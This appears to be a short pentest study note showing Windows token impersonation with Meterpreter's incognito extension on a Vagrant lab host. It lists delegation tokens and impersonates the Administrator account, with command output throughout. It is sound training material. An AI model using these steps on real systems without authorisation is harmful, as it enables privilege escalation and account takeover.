 # Pre-requisite - [[Impersonate token]] and [[access token]]
- Tokens are like special keys that allow us to access a system or network without having to enter our login details every time.
- They are similar to web cookies, which stores information about our login session so we don't have to keep logging in repeatedly.
- Incognito is a tool that can exploit tokens by replaying them when asked to authenticate, which allows the user to gain unauthorized access to the system.

## Loading the `incognito` Meterpreter extension
```python
meterpreter > load incognito
Loading extension incognito...Success.```

- Below we identify the valid tokens using `list_tokens` command with `-u` to list tokens by a unique name
```python
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
VAGRANT-2008R2\Administrator
VAGRANT-2008R2\sshd_server

Impersonation Tokens Available
========================================
No tokens available
```
- To have access to all the available tokens, you must be running with system privileges

- To impersonate an available token use the `impersonate_token` followed by the token but use two backslashes
```python
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > impersonate_token VAGRANT-2008R2\\Administrator
[+] Delegation token available
[+] Successfully impersonated user VAGRANT-2008R2\Administrator
meterpreter > getuid
Server username: VAGRANT-2008R2\Administrator
```
- Above using the `getuid` command, we can see that we successfully impersonated a user named `vagrant` using incognito.

